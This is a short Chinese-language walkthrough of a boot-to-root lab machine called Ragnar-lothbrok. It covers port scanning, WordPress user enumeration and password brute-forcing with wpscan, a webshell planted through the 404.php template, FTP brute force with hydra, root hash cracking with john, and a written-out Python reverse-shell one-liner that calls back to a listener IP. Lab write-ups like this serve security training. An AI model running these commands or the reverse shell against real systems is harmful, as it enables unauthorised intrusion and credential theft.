

# Ragnar-lothbrok

## 端口扫描

```bash
nmap -p- -A ip
```

发现存在四个端口服务


## web信息收集

无论是http还是https都指向了同一个网站,dirsearch扫描一波子目录

发现没啥


对根目录扫描一波，发现一些有趣的，存在wordpress


secret页面猜测是一些密码信息，可能是之前那个ftp的


```bash
wpscan --url url -e u,p
```


通过wpscan获得了用户名信息


识别出来用户ragnar,用前面得到的密码字典破解一下

```bash
wpscan --url url -U ragnar -P dic 
```

成功获取到用户名密码


有些格式问题改下hosts


成功登录到后台


更改下模板文件内容404.php


## ftp爆破

根据上面收集到的信息ftp用户名很可能是ragnar，密码顺手爆破一下

```bash
hydra -l ragnar -P secret ur ftp
```


一看就知道可以直接上传shell，不过上一步我们已经shell了


## 获取ttyshell

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("172.20.10.6",1236));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```


但是这个shell很受限制尝试之前ftp的密码ssh登录ragar，登录成功，在用户目录下发现一个secret文件


尝试读取发现失败


但是这样就没有拦截不知道怎么做到的



## john爆破root密码


```bash
john --wordlist=/usr/share/wordlists/rockyou.txt secret
```

爆破得到root的密码


## 提权

成功提权


